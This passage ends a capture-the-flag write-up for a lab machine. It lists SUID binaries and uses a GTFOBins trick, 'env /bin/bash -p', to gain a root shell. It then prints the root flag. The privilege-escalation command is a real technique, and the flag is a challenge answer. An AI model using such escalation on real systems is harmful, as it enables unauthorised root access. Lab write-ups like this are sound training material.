 ~~~
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
~~~

I checked [GTFOBins](https://gtfobins.github.io/) and found a command which has potential to gain us `root` access using `env`:

~~~
namelessone@anonymous:~$ env /bin/bash -p
bash-4.4# whoami
root
~~~

#### Root flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
4d930091c31a622a7ed10f27999af363
~~~

Root flag: `4d930091c31a622a7ed10f27999af363`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d 0ne! : )